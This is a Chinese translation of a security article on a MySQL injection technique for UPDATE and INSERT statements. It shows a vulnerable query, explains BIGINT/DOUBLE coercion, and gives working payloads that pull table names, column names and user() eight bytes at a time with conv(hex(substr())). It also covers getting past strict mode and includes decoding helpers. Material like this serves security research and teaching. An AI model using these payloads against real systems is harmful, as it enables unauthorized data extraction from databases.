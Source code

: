 > 原文链接: https://www.anquanke.com//post/id/85487 


# 【技术分享】一种新的MySQL下Update、Insert注入方法


                                阅读量   
                                **239287**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：exploit-db.com
                                <br>原文地址：[https://www.exploit-db.com/docs/41275.pdf](https://www.exploit-db.com/docs/41275.pdf)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p1.ssl.qhimg.com/t01b1716e4413fc281a.png)](https://p1.ssl.qhimg.com/t01b1716e4413fc281a.png)

翻译：[testvul_001](http://bobao.360.cn/member/contribute?uid=780092473)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

目前我们一般通过报错和时间盲注来对update和insert语句进行SQL注入，下面我们来讲解一种新的获取数据的方法。

首先我们来看一个简单的例子，假设应用会将username字段的结果会返回给我们：

```
$query = "UPDATE users SET username = '$username' WHERE id = '$id';";
```

HTTP应用中的参数是这样的：

```
username=test&amp;id=16
```

我最近研究的带内，带外攻击技巧刚好适用于这个场景，要理解我的技巧，我们可以先看下Mysql 是如何处理字符串的。在Mysql 中一个字符串等于 ‘0’，我们来看一下：

[![](https://p2.ssl.qhimg.com/t01cc281a4e0b2273e5.png)](https://p2.ssl.qhimg.com/t01cc281a4e0b2273e5.png)

假如我们把字符串和数字相加，结果和0 加这个数字一样：

[![](https://p0.ssl.qhimg.com/t01a5d3f314475c813a.png)](https://p0.ssl.qhimg.com/t01a5d3f314475c813a.png)

Mysql的这个属性给了我一些灵感，我们来看看BIGINT的最大值加上一个字符串会怎样？

[![](https://p3.ssl.qhimg.com/t01b604af8353f73320.png)](https://p3.ssl.qhimg.com/t01b604af8353f73320.png)

结果是 ‘1.8446744073709552e19’，这表明字符串实际上作为八字节的DOUBEL类型来处理。

[![](https://p3.ssl.qhimg.com/t0100a4f0da080b0577.png)](https://p3.ssl.qhimg.com/t0100a4f0da080b0577.png)

将一个DOUBLE类型和大数字相加会返回IEEE格式的值，为了解决这个问题我们可以使用OR。

[![](https://p5.ssl.qhimg.com/t0137dca0c4a3280ddb.png)](https://p5.ssl.qhimg.com/t0137dca0c4a3280ddb.png)

现在我们得到了最大的64bit无符号的BIGINT值0xffffffffffffffff。我们需要注意通过OR获取数据时，这个值必须小于BIGINT（不能超过64bit）。

<br>

**转换字符串为数字**

为了获取数据我们可以将应用输出的字段转换为数字，然后再解码回来，如下步骤：

```
String -&gt; Hexadecimal -&gt; Decimal
```

[![](https://p1.ssl.qhimg.com/t010a9008eb233745ae.png)](https://p1.ssl.qhimg.com/t010a9008eb233745ae.png)

通过SQL，Python和Ruby等语言我们可以将数字转回字符串，如下：

```
Decimal -&gt; Hexadecimal -&gt; String
```

[![](https://p2.ssl.qhimg.com/t0162c38655fe29fbab.png)](https://p2.ssl.qhimg.com/t0162c38655fe29fbab.png)

如上面提到的，Mysql中的最大值为BIGINT，我们不能超过它，也就是说每次提取的字符串不能超过8位。

[![](https://p1.ssl.qhimg.com/t01844be893e5213c30.png)](https://p1.ssl.qhimg.com/t01844be893e5213c30.png)

4702111234474983745可以被解码为AAAAAAAA，如果再加一个A,我们就不能正确解码了，因为返回的结果会是无符号的BIGINT值0xffffffffffffffff。

[![](https://p1.ssl.qhimg.com/t0164cc3747191e6a88.png)](https://p1.ssl.qhimg.com/t0164cc3747191e6a88.png)

如果需要获取的数据超过8个字节，我们需要使用substr()方法来将数据分片。

```
select conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10);
```

n的取值为1、2、3…比如我们要获取的username长度超过8个字符，我们首先获取前八个字符，然后继续获取后面的8个直到得到NULL。

[![](https://p2.ssl.qhimg.com/t0112037d2bc764e2c3.png)](https://p2.ssl.qhimg.com/t0112037d2bc764e2c3.png)

最后我们把user()函数获得的数据解码。

[![](https://p1.ssl.qhimg.com/t01a7a74317de6f00ae.png)](https://p1.ssl.qhimg.com/t01a7a74317de6f00ae.png)

<br>

**注入技巧**

**获取表名**

```
select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**获取列名**

```
select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**利用UPDATE语句**

下面我们通过一个例子来说明如何利用更新语句。

[![](https://p0.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)](https://p0.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)

实际的查询语句可能是这样的：

[![](https://p1.ssl.qhimg.com/t011d353490f781c9c2.png)](https://p1.ssl.qhimg.com/t011d353490f781c9c2.png)

[![](https://p2.ssl.qhimg.com/t01f035c0c8d3056e1c.png)](https://p2.ssl.qhimg.com/t01f035c0c8d3056e1c.png)

**利用INSERT语句**

原始SQL语句如下：

```
insert into users values (17,'james', 'bond');
```

我们可以像update语句中一样获取数据：

```
insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);
```



**<br>**

**MySQL 5.7中的限制**

你可能注意到这种方法在MySQL 5.7.5之后的版本并不奏效。

[![](https://p1.ssl.qhimg.com/t01b2d273751c10ecc4.png)](https://p1.ssl.qhimg.com/t01b2d273751c10ecc4.png)

通过研究MySQL 5.7发现Mysql服务器默认运行在‘Strict SQL Mode’下，在MySQL 5.7.5里，默认的模式包含‘STRICT_TRANS_TABLES’。在 ‘Strict SQL Mode’ 下我们不能将integer转换为string。

[![](https://p0.ssl.qhimg.com/t01b58383a4c7198204.png)](https://p0.ssl.qhimg.com/t01b58383a4c7198204.png)

为了解决这个问题，我们需要在注入时一直使用一个integer类型，这样就不会有任何问题了。

[![](https://p0.ssl.qhimg.com/t01c0f333a1564337c4.png)](https://p0.ssl.qhimg.com/t01c0f333a1564337c4.png)

另外任何用户都可以在他的会话里关闭‘Strict Mode’。

[![](https://p2.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)](https://p2.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)

如果想设置影响所有客户端的全局属性需要SUPER权限。

[![](https://p1.ssl.qhimg.com/t01705d4634503b37c6.png)](https://p1.ssl.qhimg.com/t01705d4634503b37c6.png)

开发者也可以使用‘IGNORE’关键字来忽略‘Strict Mode’，如‘INSERT IGNORE’或者‘UPDATE IGNORE’。

[![](https://p1.ssl.qhimg.com/t018bc3ee06bf7f0821.png)](https://p1.ssl.qhimg.com/t018bc3ee06bf7f0821.png)

<br>

**解码Decoding**

SQL

```
select unhex(conv(value, 10, 16));
```

Python

```
dec = lambda x:("%x"%x).decode('hex')
```

Ruby



```
dec = lambda `{` |x| puts x.to_s(16).scan(/../).map `{` |x| x.hex.chr `}`.join `}`或
dec = lambda `{` |x| puts x.to_s(16).scan(/w+/).pack("H*") `}`
```
